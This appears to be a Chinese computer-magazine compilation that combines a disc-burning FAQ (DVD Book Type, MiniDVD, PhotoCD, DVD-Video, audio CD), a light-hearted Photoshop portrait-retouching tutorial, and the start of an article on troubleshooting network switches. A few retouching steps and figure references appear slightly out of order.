### 6. DVD+R/RW 的 Book Type

问：我使用 DVD+RW 刻录盘刻录 Video，在 PC 上播放很正常，为什么在 DVD 影碟机上显示为“无法读取”？
答：如果使用 DVD+R/RW 刻录盘，大家不能忽视“Book Type”。Book Type 信息储存在每一片 DVD 光盘最前面，作为回放设备的识别部分。有些 DVD 播放设备在读取 DVD 刻录盘时，只读取“Book Type”字段来确定光盘的种类，比如是“D5 刻录”、“D5 DVD-ROM”、“D9 刻录”、“D9 DVD-ROM”等等，如果遇到不能识别就会显示“无法识别”，也就无法读取了。目前有的光磁厂商，比如明基，可以通过改写刻录机的固件，在刻录盘片时把“Book Type”字段标记成“D9 DVD-ROM”，这样就能“欺骗”DVD 播放机或 DVD-ROM，达到提高兼容性的效果。

### 五、影像专用刻录的制作方法

#### 1. MiniDVD如何制作?

问：据朋友介绍，CD刻录机能够制作MiniDVD，在一些DVD影碟机上播放，请问具体如何制作？

答：对于只有CD刻录机的用户而言，制作MiniDVD光盘是一种折中方案。不仅可以节约投资，还可以获得近乎DVD的视频与音频效果。更加重要的是，MiniDVD可以被大多数主流DVD播放机以及播放软件识别，基本上不存在兼容性问题。MiniDVD光盘的刻录需要用到Nero、VideoPack等支持视频光盘刻录的专用软件，我们以Nero为例向大家介绍。打开Nero后关闭向导模式，将光盘类型设定为“Super Video CD”，并把制式确认为PAL。单击“New”，我们就可以添加MiniDVD格式的MPG文件了。由于Nero已经做好了相关文件，因此只需将MPG文件拖曳到左边的空白栏即可。

最后一步很关键，拖曳MPG文件之后，Nero会对其编码方式进行自动分析。由于MiniDVD与Nero所支持的SVCD有一定区别，所以我们会看到错误提示。此时，大家什么都别管，选择第一项“Turn off standard compliance and continue”，这样做不会对最终的MiniDVD产生任何影响。

#### 2. PhotoCD的制作方法

问：数码照片后期的冲印成本依然困扰着普通用户。对于那些不太重要的照片，一般都希望可以利用刻录机来制作PhotoCD光碟，方便随时欣赏，甚至兼容VCD。具体应该如何实现呢？

答：个人用户制作PhotoCD并不困难，使用EasyCD Creator刻录软件就可以做到（在Google.com可搜索到下载地址）。打开EasyCD Creator向导，选择制作“Photo Album”就可以进入PhotoRelay。PhotoRelay的界面十分直观，选择“Add”添加所有照片。此外，PhotoRelay还对多款数码相机进行了优化，可以通过Acquire命令连接数码相机，直接下载照片。将照片导入PhotoRelay后，可以为每张照片分别添加注释说明。

此外，通过上方的“Sort”按钮，可以方便地为所有照片排序。PhotoRelay还能够为PhotoCD添加背景音乐，而且支持MP3格式。如此一来，我们的PhotoCD将更加富有情趣。最后，选择“Copy to CD”，PhotoRelay会自动调用EasyCD Creator的刻录程序。在整个刻录过程中，我们根本无需干预，因为EasyCD Creator与PhotoRelay是无缝链接，制作出的光盘效果十分出色，也可以兼容部分新型号的VCD以及DVD影碟机。

#### 3. DV视频采集后刻录DVD-Video

问：对于高清晰度的DV视频而言，DVD影碟无疑是最佳的输出方案，这令画质丝毫不受损失，远超传统VCD或者SVCD。它的采集到刻录，能否介绍一些具体的方法？

答：以Adobe Premiere为例，在采集DV视频时，先点击菜单中的File→Capture→Movie Capture，此时会出现Movie Capture界面。如果一切正常，点“Play”键可以控制DV播放，再点红色的按钮就可以采集DV视频了，按键盘的ESC键可以停止采集。在开始采集之前，最好设置存放AVI文件的具体路径，因为Premiere 6设定的默认路径并不一定最为合适。点击Preference的Edit按钮可以设置采集目标磁盘，AVI文件最大可以采集到4GB，大约为18分钟，必须预留足够的硬盘空间。

完成DV视频采集之后，还需要一款支持DVD-Video的刻录软件。尽管最新版本的Nero Burning ROM也能制作DVD，但是需要额外购买价格不菲的NeroVision插件，因此我们推荐WinDVD Creator 2.0，它由大名鼎鼎的InterVideo推出，30天中文试用版没有任何功能限制。打开WinDVD Creator 2.0，切换到特效编辑选项卡，单击导入按钮可以将采集好的视频文件存放在预览窗口。然后点击“切换至时间行模式”图标，将预览窗口内的各段视频依次导入。WinDVD Creator也可以为视频资料增加一些场景过渡特效、标题以及背景音乐等等，但是其功能比Premiere等专业级视频处理软件自然要欠缺一些。

安排好需要刻录的视频文件之后，把WinDVD Creator切换到“制作电影”标签，并且将格式以及电视系统分别设定为“DVD（1小时）”和“PAL”。在下方的“电影大小”图框中，尽量保证不出现红色警告区，因为大多数DVD刻录盘还都无法支持“超刻”。点击“下一步”按钮，WinDVD Creator会要求用户确认输出方式，选择“刻录到光盘”。在检测到DVD刻录机后，用户应根据刻录盘片的具体情况选择刻录速度。再选择“开始”，WinDVD Creator便会自动以DVD-Video格式进行刻录。

#### 4. 音乐CD的制作方法

问：我收集很多MP3格式的音乐，但它们只能在个人电脑上播放，无法在家用音响、汽车音响上播放。目前市面上的刻录软件只能将MP3格式的歌曲刻录在光盘上，无法刻录成音乐CD光盘，请问有什么解决方法吗？

答：现在可以使用MP3 CD Maker将MP3格式的歌曲直接刻录成音乐CD光盘（到Google.com搜索下载地址）。MP3 CD Maker这款软件的优点，在于其可以不通过任何其它软件的辅助，一步到位地把MP3直接刻录成CD音轨。启动MP3 CD Maker，在其主界面窗口中，单击界面中的“+”命令按钮，然后在“打开”对话框中，选择需要刻录的MP3音乐文件，可以选择多个文件。

返回主界面窗口，可以看到文件列表框中已经列出了被选中文件，在选定要刻录到CD-R上的歌曲后，最好看看总曲目的时长是否已经超过了所用盘片时间限制的上限，建议留有3分钟左右的余量，这样把握会更大一些。此外，大家在刻录CD时最好采用低倍速，基本上能够避免跳音。

## 那斯开泰美容院——Photoshop打造人造美女

文/TMG ly

我小y的美容院刚开张，没想到生意这么火爆，有来去痘润肤的靓丽MM，有要去斑美白的中年阿姨，连外国阿婆也慕名而来找我帮她除皱紧肤，要问我有什么生意经吗？嘿嘿，本美容院设有美容护肤、彩妆和美体塑形一体化服务，再加上我小y的独家美颜秘方，生意想不好都不行呀！不过，我小y也绝不是唯财是图之人，大家好才是真的好嘛！所以，特地开了个美容学堂，准备将自家的祖传秘方毫无保留地公诸于世，普天之下所有爱美的女士们快来看看哟！

### 保养篇

美女们都知道不管化妆技巧多么高，“底子”好才是最重要的，光洁健康的肌肤是美的基本条件。所以，小y先教大家来学学如何护理我们的肌肤吧！

#### 一、脸部护理

##### 1. 去痘润肤

很多年轻的MM们都为脸上的小痘痘和粉刺而苦恼，你看，这个MM多阳光，笑得多灿烂！如图1所示。


要是脸上没有那几颗调皮的小痘痘该是多么完美的一张脸呀！身为美容大师的我，怎能坐视不理呢？赶快把MM请入我的美容院吧。

安装并启动Photoshop CS软件，单击菜单命令“文件→打开”。

我们先来做个皮肤测试：MM脸上的痘痘还不是一颗两颗呢，如果MM有足够的耐心，等我用“修补工具”慢慢点，那我也乐意效劳。可现在是讲究效率的年代，有什么方法能又快又好地帮MM除掉这么多的小痘痘呢？下面，就奉上我的祖传秘方之高效去痘润肤术。

步骤一：
首先，确定MM需要护理的部位：在工具栏中选取“魔棒”和“套索”工具，勾选出需要修饰的面部和颈部，如图2所示。


步骤二：
开始做深层清洁，在菜单命令中单击“选择→羽化”，在弹出的对话框中将半径设为5，如图3所示。
按“Ctrl+J”键，复制图层。


步骤三：
清洁做好了，现在可以给MM做面膜了。在菜单命令中单击“滤镜→模糊→高斯模糊”，在弹出的对话框中设半径为3，如图4所示。


然后把“不透明度”调为70%，如图5所示。
在菜单命令中单击“图层→合并可见图层”。
到此为止，我们的护理就完成一大半了，看看MM的皮肤好多了吧，如图6所示。


步骤四：

最后，我们再为MM做个局部精华护理。用“Shift+套索工具”，选出几处明显的痘痘，如图7所示。


在菜单命令中单击“滤镜→杂色→蒙痕与划痕”，将参数设为半径5，阈值7，如图8所示。

大功告成了，水嫩嫩的脸蛋笑得多甜呀！比比看看，如图9所示。


##### 2. 细致毛孔 柔化肌肤

阳光MM刚离开，小y又请来了一位明星MM，这位MM皮肤还算光洁，只是看起来还不够细腻。身为公众人物的肌肤，可容不得半点瑕疵。虽然这只是简单的护理，可面对明星MM的脸蛋，小y也马虎不得。如图10所示。


步骤一：

单击菜单命令“文件→打开”；单击“通道”，再选择红色通道并双击，激活通道。如图11所示。

步骤二：

下面，美容师就要轻轻地为贵宾洁肤了：单击通道控制面板下方的圆圈工具按钮（见图11下方），将红色通道作为选区载入。

单击菜单命令“选择→羽化”，将羽化半径设为3。如图12所示。

按“Ctrl+L”键，打开色阶对话框，将所选区域调亮，如图13所示。


步骤三：

明星MM的皮肤娇嫩，我们还得给她来点柔肤水：我们不取消选区，单击菜单命令“图层→复制图层”。选择最上面的图层，然后单击菜单命令“滤镜→模糊→高斯模糊”，并将对话框中的参数设为3.0。现在来看看效果，如图14所示。


步骤四：

现在发现轮廓有些模糊了，不要紧，再来一个面膜吧：单击右键，在弹出的快捷菜单中单击“取消选择”，这时就取消选区了。选择工具栏中的橡皮擦工具，并将画笔像素设为5，硬度设为0，然后在需要清晰的地方比如眉毛、眼睛、嘴唇和轮廓处进行轻轻的涂抹，动作要轻柔。面膜效果如图15所示。


调整好了以后，单击菜单命令“图层→向下合并”。

现在，MM的脸是不是光滑柔嫩了不少呢！不过再来点滋养霜就更好了。所以，我们继续，再激活红通道，按第一步的做法，选取亮度较高的地方，小小地羽化一下，按“Ctrl+L”打开色阶对话框，将所选的区域的亮度调暗一点，如图16所示。


明星MM的美容效果怎样。皮肤嫩滑了不少呢，不信比比就知道啰！如图17所示。


##### 3. 去斑美白

MM脸上若有零星的几颗雀斑，就如小甜甜布兰妮一样也不失可爱，反而增加了几分俏皮，可是如果雀斑满脸都是，对爱美的女士来说，无疑就是恶梦了。特别是很多中年大姐，岁月在他们的脸上留下了无情的斑痕，他们的青春在日常繁琐的家务活中，慢慢流逝。去斑美白当然是这些大姐的当务之急。下面这位模特大姐，就是由于脸上斑太多，专门远渡重洋来找到我小y。

先请这位大姐就座吧。单击菜单命令“文件→打开”，如图18所示。


步骤一：

大姐的斑确实够多的，先为这位大姐洗个脸吧：单击菜单命令“滤镜→模糊→高斯模糊”，在弹出的对话框中，调整参数，将参数设为7.8，不过这一步可以具体情况具体分析，不用太死板。如图19所示。


步骤二：

脸洗干净了，我就要开始细心地为大姐“换肤”了，这可是关系到本美容院国际声誉的问题，我可来不得半点马虎。

单击历史记录控制面板下方的“创建新快照”按钮，就建立起了新快照；往下拉动历史记录控制面板右边的滚动条，单击选定“打开”的那一步，“快照一”前会出现一个历史画笔工具图标，如图20所示。


现在就要准备为换肤选取工具了：单击左边工具栏中的历史画笔工具，并在上方的工具栏中将不透明度调为50%，画笔大小可以随时根据部位调整，如图21所示。


美容师在涂抹时，一定要小心翼翼，不要碰触到眼睛等轮廓清晰的部位。经过小y的精心手术，初步的效果就已经出来了，大姐照照镜子吧，如图22所示。


步骤三：

小y做事向来是尽善尽美，再为外国大姐来点滋养霜：按“Ctrl+L”键，弹出对话框调整色阶。可参照前例。

再进行一下色彩平衡：单击菜单命令“图像→调整→色彩平衡”，进行适度调整。好了，外国大姐看看效果吧，如图23所示。再来跟原来比比，可以说都认不出来了，大姐至少年轻了十岁吧。


##### 4. 除皱紧肤

爱美之心人皆有之，现在美容已不再是年轻人的专利，老太太也变得越来越时尚了。这位爱美的老太太就是来请我为她除皱的，身为晚辈我定要倾力而为啰。还请老奶奶上座，单击菜单命令“文件→打开”，如图24所示。


由于，此项手术工程巨大，我们就以老奶奶嘴角皱纹为例。看来老奶奶年纪不小，嘴角皱纹已成网状了，下面就开始操刀手术。

步骤一：

单击左边工具箱里的“修复画笔工具”，再在菜单栏上单击画笔，设置比刷的大小、硬度、间距等参数值，如图25所示。

将鼠标移到皮肤好的地方，然后按下Alt键，同时单击鼠标左键进行取样；接着在有皱纹的地方点击鼠标进行修补，将以上步骤反复多次，就可以去除老奶奶的皱纹啦！

看看老奶奶的嘴角皮肤是不是平滑多了，对比着看看效果就更明显了。如图26所示美容前后对比。


后单击“好”按钮。如图28所示。


在选区中单击鼠标左键并按住不放，拖动选区到脸部光滑的地方，接着按“Ctrl+C”键拷贝选区，如图29所示。


#### 二、眼部护理

眼睛是心灵的窗户，一双明眸大眼是MM们所期盼的，可是由于工作学习的压力，不少MM都有熊猫眼和眼袋，这使MM的魅力指数大打折扣，所以下面我要教MM几招美容术，还眼睛的精彩。

##### 1. 消除黑眼圈

步骤一：

按老规矩请个MM来当模特，单击工具栏里的放大镜工具，将图像放大到200倍，这样子就便于美容师更精确地操作啦。如图27所示。

接着，将选区拖回原位按“Ctrl+V”键粘贴，将复制的光滑皮肤移动到黑眼圈上面，将黑眼圈遮盖住，如图30所示。在图层面板中调节刚复制图层的“不透明度”为40%。


步骤三：

做完眼膜后，再擦点眼霜吧：利用工具栏中“减淡”工具，用柔化大小20的画笔，然后调节“曝光度”为30%轻轻涂抹，使黑眼圈得到更好地消除。对比着看看，漂亮多了吧。如图31所示。

##### 2. 去除眼袋

黑眼圈和眼袋是夺走我们眼部光彩的两大元凶，前面我已经给大家秘授了消除黑眼圈的方法，现在我们再来学学怎样击败“眼袋”这一美容大敌吧！去除眼袋与消除黑眼圈的美容方法有相似之处，不过也有细微的差别，我们就借用一位MM的眼睛来简单演示一下吧。好了，不再罗嗦了，直接开始手术。

步骤一：

在左边工具箱中，单击“修补画笔”工具，按住左键不放，这时会出现一个下拉菜单，在下拉菜单中单击“修补工具”，选择修补工具，如图32所示。

在选项栏设置修补为“源”，而且不要选“透明”，如图33所示。


步骤二：

接着，准备给MM做个眼贴膜：用鼠标左键单击“工具栏”中的“套索工具”并按住不放，在弹出的工具选项中选择“多边形套索工具”。接着沿眼线将左眼黑眼圈部分选取，然后单击菜单命令“选择→羽化”命令，在弹出的“羽化选区”对话框中将“羽化半径”设置为5像素，最后单击“好”按钮。


### 彩妆篇

有了健康的冰脂玉肤，我们也就具备了成为美女的基本条件，如果我们再掌握一些化妆技巧，那更是锦上添花了。

#### 一、修饰性感眉型

残缺的眉毛和稀短的睫毛的MM，总会给我们留下些许遗憾；而利用小y的美颜化妆术，则可以弥补这一不足。我们先来看看MM化妆前的照片，如图37所示。


##### 步骤一：

首先，把眉毛修一修：单击菜单命令“图层→复制图层”，得到“背景 副本”。单击左边工具箱中的套索工具，在眉毛周围勾画出一个松散的选区。单击菜单命令“选择→羽化”，将参数值设为5，然后单击“好”按钮，完成羽化。如图38所示。


用修补工具沿着眼睛下的眼袋进行勾选，做这一步的时候，美容师要小心哟，不要把眼睫毛这样颜色深的部分选上。如图34所示。


选好了以后，按住鼠标左键不放，将圈选的部分拖移到光滑皮肤上，松开鼠标后，眼袋就神奇的不见了，如图35所示。这个办法很简单而且超级好用，想让眼睛“电力十足”的MM们，不妨试试！下面我们来看看左右眼的对比效果吧！如图36所示。


##### 步骤二：

下面，开始画眉啦：完成羽化后，按下“Ctrl+J”得到眉毛独立的“图层1”。在图层控制面板中，将眉毛的“混合模式”换成“正片叠底”，这时图层会变暗。如图39所示。


按住Alt键使用黑色填充，并单击图层控制面板底部的图层蒙板按钮，这将隐藏正片叠底的效果，可以看到眉毛看起来恢复正常了，然后，按下字母D将前景色设为白色。如图40所示。


选择与眉毛最大部分相当的软边画笔，到选项栏中将画笔的“不透明度”设为50%，然后用画笔从右到左在眉毛上涂抹，在涂抹过程中可随眉型粗细改变画笔尺寸大小，涂抹操作将展示出正片叠底的效果，从而使眉毛变暗。如图41所示。


好了，照照镜子，这才是名副其实的“美眉”嘛！

#### 二、打造卷翘睫毛

拥有芭比娃娃一样的卷翘睫毛，是每个MM的梦想，虽然现实与梦想是有距离的，但只要我们努努力也是能够

##### 步骤一：

首先，要为MM的睫毛做个模型，这个过程要相当有耐心而且要相当细心哦：单击菜单命令中“文件→新建”命令，弹出“新建”对话框，设置“名称”为睫毛，文档“宽度”为100像素，“高度”为100像素，“分辨率”为72像素/英寸，“颜色模式”为RGB颜色，其他都按默认设置，单击“好”按钮创建文档。

单击图层控制面板中的创建新的图层按钮，创建图层。设置前景色为棕色，选择画笔工具，单击画笔工具属性栏中的“画笔预设”按钮，弹出“画笔预设”选择器，设置“主直径”为3，“硬度”为100%，接着按住Shift键的同时在图像上方绘制一条水平线。如图42所示。


单击工具箱中“矩形选框”工具，属性工具栏均按默认设置，建立选区。如图43所示。


单击菜单命令“滤镜→扭曲→极坐标”命令。弹出一个“极坐标”对话框，选择“平面坐标到极坐标”选项，单击“好”按钮，得到如图44所示效果。


按“Ctrl + D”键取消选区，单击工具箱中“橡皮擦”工具，单击属性工具栏中的“画笔预设”按钮，弹出“画笔预设”选择器，设置“主直径”为12，“硬度”为0%，接着设置“模式”为“画笔”，“不透明度”为50%，“流量”为100%，然后利用“橡皮擦”工具，在弧线末端单击并拖拽进行涂抹，虚化边缘，得到渐隐的效果，如图45所示。


##### 步骤二：

模型做好了，下面就该请MM来试试模型合不合适了：先单击菜单命令“文件→打开”，如图46所示。

在菜单栏中单击“选择→全选”命令，将图片45全部选中，按“Ctrl+C”键复制，然后将其复制到图46中，利用“移动工具”调整图片位置。

单击菜单命令“编辑→自由变换”改变图像的尺寸和角度，使睫毛达到最佳效果，按Enter键确认，再利用“移动工具”调整图片位置。

##### 步骤三：

为使睫毛看起来更性感迷人，接下来，就该涂点睫毛膏了：按住Alt键的，同时单击并拖拽睫毛，光标发生变化后，就可以移动并复制睫毛到新图层，复制睫毛时要沿眼睛的轮廓，按步骤反复操作，我们可以看到MM的睫毛变得越来越卷翘，越来越迷人，然后单击菜单命令“图层→复制图层”，将所有包含睫毛的图层合并。

选择“橡皮擦”工具，属性工具栏仍保持刚刚的设置，利用“橡皮擦”工具，轻轻地修饰睫毛末端，虚化边缘，使弯弯的翘睫毛看起来更逼真。这样左眼的睫毛就修饰完成了。如图47所示。


怎样让右眼睫毛也同样性感迷人呢？单击菜单命令“图层→复制图层”，复制睫毛图层。接着单击“编辑→变换→水平翻转”命令。水平翻转图像，利用移动工具调整图片位置，如图48所示。


按“Ctrl+T”快捷键，调整图像角度，再按Enter键确认调整，接着利用“移动工具”调整图片位置。最终，MM两眼的睫毛都变得又长又卷了，眼睛也显得更加有神采了。如图49所示。现在都不敢多看MM的眼睛了，电力太强了！


#### 三、闪亮眼影

在性感的双眉和卷翘睫毛的衬托下，MM的眼睛真是大放异彩。有了这样一双美丽的眼睛，自然希望别人的目光能在它的上面多停留一会儿。那要怎样才能达到这种勾魂夺魄的效果呢？这就得靠闪亮的眼影来增强“电力”了。我们开始上课了，先请MM就座，先为MM润润肤：

##### 步骤一：

打开图片，单击菜单命令“图层→复制图层”，如图50所示。


单击菜单命令“图像→调整→去色”，并在图层控制面板将模式改为“滤色”。“不透明度”调为50%左右。如图51所示。


##### 步骤二：

接着，该为眼睛上色了：单击工具箱里的“拾色器”按钮，在弹出的拾色器对话框中，将前景色设为蓝色。如图52所示。


在图层控制面板下，单击“新建图层”按钮，选择新建图层，然后在工具箱中选择柔角画笔工具，在画笔属性栏中将画笔的参数设为10个像素，仔细地为MM眼部上色。画笔大小可随时调整。如图53所示。


这是将图层控制面板上的图层混合模式改为“颜色加深”；“不透明度”调整到45%左右，按“Ctrl+E”快捷键向下合并图层。如图54所示。


在工具箱中选择“锐化”工具按钮，涂抹眼影使其发亮。完成后，一双神采奕奕的眼睛就立刻呈现在你面前了。如图55所示。


#### 四、透明唇彩

性感的双唇可以使MM更有女人味，这当然离不开唇彩的渲染。下面就来学学如何打造性感双唇吧！为了让大家能更加直观地学习，我们还是借位MM双唇用一下。

##### 步骤一：


单击菜单命令“图层→新建”，在新建图层中填充50%的黑色，然后添加杂色，如图57所示。


按“Ctrl+L”键，弹出一个“色阶”对话框，调整色阶是白色大小和密度达到满意为止，将参数设置为如图58所示。

色阶设定好后，单击“好”。然后，单击菜单命令“图像→调整→去色”。在图层控制面板中，将图层模式改为线性减淡，然后选择“路径1”，按“Ctrl+Enter”键转为选区，再按快捷键“Ctrl+Alt+D”进行羽化，在弹出的“羽化”对话框中，将参数设为2。在图层控制面板下方，单击“添加蒙版”按钮，然后在工具箱中单击“画笔”工具，对嘴部暗处轻轻涂抹一下。如图59所示。


##### 步骤二：

MM嘴部够滋润了，现在可以开始上唇彩了。单击图层控制面板下方的“调整图层按钮”，添加一个曲线调整层，来调整唇的颜色，如图60所示。


然后，重复前面的步骤：路径转选区、羽化、添加蒙版。接着，再按“Ctrl+J”快捷键复制一个背景层，将该层放在最上面。单击菜单命令“图像→调整→渐变映射”，弹出“渐变映射”的对话框，这个调整的好处就是可以把任意颜色地方定义为白色，如图61所示。


在图层控制面板中，将模式改为“滤色”模式，再重复前面的步骤：路径转选区、羽化、添加蒙版。这样，MM的透明闪亮唇彩就完成了。看看效果吧！如图62所示。


#### 五、口齿清新 美白牙齿

只有灿烂的笑容才能显出女人的自信，可一口黄牙又怎敢坦然地“笑”对人生呢？这节课就教各位MM如何“洁牙”，让你口齿清新，笑得更加自信迷人！
首先，请MM来个灿烂的微笑，如图63所示。


##### 步骤一：

笑得很美，只是这牙……不过没关系，先给她洗洗牙：单击菜单命令“图层→复制图层”，如图64所示。


按“Ctrl+U”键，弹出“色相→饱和度”对话框，调整编辑为黄色，设定饱和度到-100。调整好以后，单击“好”按钮。如图65所示。
打开历史记录面板，单击“历史记录控制面板”底部的“创建新快照”按钮，新建一个快照。如图66所示。


在图层控制面板中，将“背景 副本”的正常模式改为差值模式。如图67所示。


按快捷键“Ctrl+E”键，合并图层，接着按“Ctrl+A”键选择画布，并按“Ctrl+C”键复制画布内容，最后，选择“历史记录面板”中的“快照1”。如图68所示。

在图层面板上单击“背景 副本”然后在单击控制面板下方的“添加矢量蒙版”按钮。并将图层的模式设定为“正常”，如图69所示。


在通道面板中，选中“背景 副本蒙版”，然后按“Ctrl+V”键粘贴图形。如图70所示。

##### 步骤二：

好了，下面该为MM的牙做“美容”了：按“Ctrl+L”键，在弹出的“色阶对话框中”，拖拉白色的输入滑动器到在左边上的第一群的边缘。设置好后单击“好”按钮。如图71所示。


在“背景 副本蒙版”通道中，在唇颜色的周围涂成黑色。然后，单击菜单命令“图像→调整→反相”。回到RGB通道再合并(Ctrl+~)蒙版“背景副本 蒙版”，效果如图72所示。
在图层面板中选择“背景 副本”，确定模式为“正常”状态，按 “Ctrl+U” 弹出 “色相→饱和度” 对话框，这时就为 “背景 副本” 调整人的色相→饱和度，设定饱和度为 -100 而且轻轻调整明度。确认牙齿比其他地方比较明亮。如图73所示。


大家可以比较效果，看看是不是牙齿亮白多了，如图74所示。


#### 六、炫彩秀发

现在很多时尚MM都热衷于染发，尽管染发有损头发和头皮的健康，可MM们还是以一种 “为了美” 的牺牲精神，不断尝试着为自己的秀发变换颜色。小y也是爱美主义者，但却不愿拿自己的秀发当试验品，所以接下来要为各位时尚MM们推荐一种两全其美的方法。我们先请一位美女来做模特吧，如图75所示。


##### 步骤一：

我们先为这位MM洗洗头：单击菜单命令 “文件→打开”，让MM坐好，我们就开始工作啦。单击菜单命令 “图层→复制图层”，并单击背景图层前的 “眼睛” 图标隐藏背景显示，如图76所示。


##### 步骤二：

接着我们开始为MM染发啦：单击菜单命令 “滤镜→抽出”，画出边缘，如图77所示。

单击工具箱中的 “油漆桶工具” 按钮，填充颜色，之后单击 “好” 按钮。如图78所示。


按Ctrl键不放，单击 “背景 副本”，将它载入选区，单击 “背景” 前的方框，让 “眼睛” 图标显示，然后单击菜单命令 “选择→羽化”。如图79所示。

单击工具箱中的 “拾色器” 按钮，将前景色设为黄色，背景色设为红色，单击工具箱中的 “渐变工具” 按钮，进行渐变填充。如图80所示。


##### 步骤三：

MM的染发过程基本完毕，下面我们再为她做个精华护理吧：将图层控制面板中的模式设置为 “柔光”，最后单击菜单命令 “图层→拼合图层”。下面就是最终效果对比啦！如图81所示。


### 美体塑新篇

MM们有了天使的面容，也希望自己能有魔鬼的身材。我们美容院也是想MM所想，急MM所急，特开设了美体塑形课，专门针对MM最想美化的胸部和腿部，各位MM可要认真学习哟！

#### 一、丰胸美体，塑造女人完美曲线

这招非常简单，MM们既不需要开刀做手术，也不需要整天喝木瓜丰胸汤，只需几步就可以让平胸MM自信地昂首挺胸了。

##### 步骤一：

单击菜单命令 “文件→打开”。单击工具箱中的缩放工具，按住工具箱中的 “选框工具” 不放，在下拉菜单中单击 “椭圆选框工具”，如图82所示。


用椭圆选框工具将胸部圈起来。接着，单击菜单命令 “滤镜→模糊→高斯模糊”，在弹出的 “高斯模糊” 对话框中，将参数设为 6.3。如图 83 所示。


单击菜单命令 “滤镜→液化”，然后在弹出的 “液化对话框” 中设置笔刷的大小，利用笔刷沿着胸部边缘轻轻往外拉。下面右边的胸部就是液化后的效果。如图 84 所示。看看，右边的胸部变大了。


##### 步骤二：

我们继续增大左边的胸部，等两边的胸部都调整到合适的比例后，就按下 “液化对话框中” 的 “确定” 按钮。最后，我们来看看最终的效果对比吧，如图 85 所示。


#### 二、打造性感美腿

女人美在腿，一双性感修长的美腿总令人赏心悦目。可是很多 MM 都为自己的 “萝卜腿” 而大伤脑筋，去健身房太辛苦，节食又太痛苦。现在，我就教大家一种既简单又轻松的美腿方法。

先借 MM 的玉腿一用，单击菜单命令 “文件 / 打开”，如图 86 所示。

MM 真可爱，要是玉腿再修长些，那就是超级 MM 了，好了，废话就不多说了，塑身行动开始吧：

##### 步骤一：

先进行一个有针对性的局部按摩。单击菜单命令 “图层→新建图层”，新建一个 “背景 副本”。单击工具箱中 “矩形选框工具” 按钮，将上半身拉入选区。按 Del 键，删除选中的图像，便于有针对性的塑形。


##### 步骤二：

开始做拉伸运动啦：按 “Ctrl+D” 快捷键，取消选区。接着，单击菜单命令 “编辑→变换→缩放”，慢慢拖动缩放控制点，拉长人物腿部。如图 87 所示。

调整达到满意效果以后，就在弹出的对话框中，单击 “应用” 按钮。最后，我们来看看效果吧，如图 88 所示。


### 教学结语：

各位 MM，小 y 的美容课程就先讲到这里，现在大家应该明白小 y 的美容秘器是什么了吧？那就是——Photoshop 制图软件，当然以上只是小 y 在前辈的基础上，结合自身实践的一些总结。俗话说得好，“八仙过海，各显神通”，也许有的 MM 还可以用其他的方法达到以上的美容效果，小 y 也真诚地期待着与各位 MM 交流美容心得。

## 网络典型应用技巧与故障排除

文 / 冷寒生

自从有了计算机网络以后，人们已经深深体会到其带来的便利性，因此有越来越多的公司、个人都已组建起了自己的网络。网络在给我们方便、高效的同时，也有着层出不穷的故障，在实际维护网络的过程中，遇到网络故障几乎是一件不可避免的事情。
网络故障具有可变性，有时同一个故障原因会导致不同的故障结果，因此在排除网络故障时必须要掌握一套检测故障的方法，大多网络故障都可依循一定的检测流程来进行排除。

### 一、网络设备故障

作为连接网络的传输介质，网络设备对网络的稳定性有着举足轻重的地位。常用的网络设备包括交换机、路由器、Modem、网卡等，在网络的日常应用中，这些网络设备经常会出现或大或小的种种问题，接下来就谈谈这些网络设备可能导致的网络故障以及相关故障的排除手段。

#### 1. 交换机常见故障和排障方法

说到交换机，就不得不说到集线器，由于集线器和交换机的外观都是具有多个接口的长方体盒子，以致许多人对集线器和交换机这两个概念不能很清楚地进行分辨。集线器作为第一类广泛应用的网络集线设备，当时在各大局域网中应用非常广泛。但随着网络传输媒体类型的日益丰富，图形、图像及各种流媒体等多媒体内容的出现，人们对网络数据传输速度和传输性能的要求日益提高。集线器由于它的共享介质传输、单工数据操作和广播数据发送方式等都先天决定了很难满足用户的上述速度和性能要求。为此，一种更新、更实用的集线设备——交换机就出现了。目前最快的以太网交换机端口带宽可达到10Gbps，千兆（G位）级的交换机在各企业骨干网络中早已得到广泛应用。
目前交换机的价格高低不等，而所导致的网络故障频率也比较高，接着来就来讨论一下交换机故障的分类与排除。

##### （1）交换机故障分类

交换机的故障主要分为硬件故障和软件故障两类，其中：硬件故障主要因交换机端口、电源、模块以及背板等所导致的问题；软件故障则是在对交换机内部进行配置所导致的问题，如密码丢失、配置不当等。

首先谈谈交换机的硬件故障，常见的硬件故障主要是电源故障和端口故障，如果使用低廉、劣质的交换机也会导致相应的故障。

电源故障多是因为外部供电不稳定或者电源线路老化，而使得交换机不能正常工作。在每个交换机上都有一个Power指示灯，如果该指示灯常亮，则表示供电正常，而如果指示灯不亮或闪烁，则表示没有正常供电或供电不稳定。要避免出现电源故障，建议添置UPS（不间断电源）设备，UPS具有稳压功能，可以保证交换机的正常供电。另外，在未使用网络时，最好断开交换机的电源，这样可以防止因雷击等自然因素而导致交换机故障或损坏。

端口故障也是一种常见的交换机硬件故障，交换机的每个端口都有固定的带宽，有独特的传输方式，传输速率不受计算机台数增加影响。所以当局域网中有个别计算机不能连接网络或网络不稳定时，就有可能是端口故障。除此之外，端口故障也会出现个别计算机访问速度过慢的情况。

大多交换机使用的都是双绞线的RJ-45端口，在插拔RJ-45双绞线时一定要使用正确的方法，不能用蛮力进行硬性插拔，这样会导致端口物理损坏。当交换机使用过一段时间后，也有必要在交换机断电的情况下用酒精棉球清洗端口。在排除端口故障时，可将网线插到多个端口中进行测试，若网络连接到其他端口时计算机的连接正常，那就能确定原端口已损坏。

在交换机中可以对交换机的各项参数进行配置，而在配置这些参数时所使用的平台是一个微型的操作系统，也可称为软件系统，就如我们常使用的Windows一样。只要是软件，就会有Bug，有缺陷。硬件厂商在设计时有可能会有一些未发现的漏洞，而当硬件厂商检测出软件系统的缺陷后，会发布相应的升级固件。在用户未升级固件前，就有可能会出现交换机满载、丢包、错包等情况，解决这类故障的方法就是到厂商的官方网站下载相应的固件并进行升级。

以上是由于厂商的因素而导致的软件故障，而许多用户在使用交换机时也经常会因配置不当而导致软件故障，如VLAN划分不正确导致网络不通，端口被错误地关闭，交换机和网卡的模式配置不匹配等原因。这类故障是人为因素所致，因此在对交换机进行配置时最好参照交换机的说明书一步一步进行操作。当配置出错时，也可以将交换机的设置恢复到出厂默认值来解决。

